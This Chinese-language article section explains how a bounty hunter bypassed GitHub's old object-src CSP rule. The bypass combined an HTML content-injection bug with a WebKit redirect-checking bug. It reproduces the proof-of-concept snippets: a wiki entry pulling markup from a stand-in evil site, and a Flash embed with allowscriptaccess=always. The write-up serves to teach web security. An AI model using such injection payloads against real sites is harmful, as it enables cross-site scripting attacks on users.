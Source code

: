 object-src
----------

在旧的的CSP策略中，对于 object 和 embed 标签是允许`self`的。

```
object-src 'self' assets-cdn.github.com;

```

是因为GitHub依赖自己网站上的[ZeroClipboard](https://github.com/zeroclipboard/zeroclipboard)库。 将依赖资源移动到CDN后，`self`就不再需要了，但因为某些原因（懒得改 or 觉得不会有安全问题？），在后来的策略中并没有被移除，直到一名 bounty hunter 发现了[一种利用方式](https://bounty.github.com/researchers/adob.html#persistent-cross-site-scripting--with-csp-bypass--20140210)。攻击者利用了一个 content injection bug 和 一个Chrome浏览器的bug 来 bypass CSP，并且成功执行js代码。攻击过程如下：

首先，攻击者用以下内容创建一个 Wiki 项：

```
<div class="selected">
<a href="https://some_evil_site.com/xss/github/embed.php" class="choose_plan js-domain">domain</div>
</div>

```

GitHub拥有一个特性，能够在多个地方（Issues, Pull Requests, Comments）渲染用户提供的HTML（通常是通过Markdown）。但用户提供的HTML会经过过滤处理，防止注入任意的HTML。

这里存在一种特殊情况，当HTML 标签的class 属性被设置为`choose_plan`和`js-domain`时，会触发 JavaScript 一些自动的操作，即自动请求标签的`href`，并将 response 插入到 DOM中。

而这里用户是可以自定义HTML 标签中的class属性值的。但因为 response 中的HTML仍然会受到 CSP 的制约，无法执行任意的 JS 代码。但此时，攻击者已经可以插入任意的HTML到DOM中了。

这里我的理解是因为`some_evil_site.com`不在`'self' assets-cdn.github.com`里，所以`自动请求标签href资源`的行为会被浏览器blocked。这里需要`href`对应的domain为self 或 CDN，才能成功加载资源并且把响应插入到DOM中。

这里bounty hunter给出的 POC也符合我的推测，domain使用的是`self`，即github.com：

```
<embed src="https://github.com/test-user/test-repo/raw/master/script.png" allowscriptaccess=always type="application/x-shockwave-flash">

```

前面在**script-src**提到，用户可控的内容(user-controlled content) + 浏览器对内容的嗅探解析(content sniffing) 可能会导致非预期的行为，因此加载 GitHub.com domain上用户可控的内容会增加脚本执行的几率，所以 GitHub在加载用户可控资源时，采取了跳转到另一个域名的方式来完成，比如请求`https://github.com/test-user/test-repo/raw/master/script.png`会跳转到`https://raw.githubusercontent.com/test-user/test-repo/master/script.png`，但`raw.githubusercontent.com`不在`object-src`允许的列表里，那么上面的POC是如何让 Flash成功加载并执行的呢？

GitHub 经过研究，发现是因为[WebKit 的一个 bug](https://bugs.webkit.org/show_bug.cgi?id=97030)所导致。正常的逻辑是，浏览器会验证所有的请求（包括redirects的）是否为CSP所允许。然而，有一些浏览器只会检查第一个请求的 domain 是否在 source list中，而不检查后续的 redirects 。

因为第一个请求的 domain 是self，embed 就能通过验证。浏览器的 Bug 加上 注入的 HTML（需要注意的是 allowscriptaccess=always 属性）导致了CSP bypass。

allowscriptaccess属性的解释如下：

```
The AllowScriptAccess parameter in the HTML code that loads a SWF file controls the ability to perform outbound URL access from within the SWF file
When AllowScriptAccess is "always," the SWF file can communicate with the HTML page in which it is embedded. This rule applies even when the SWF file is from a different domain than the HTML page.

```
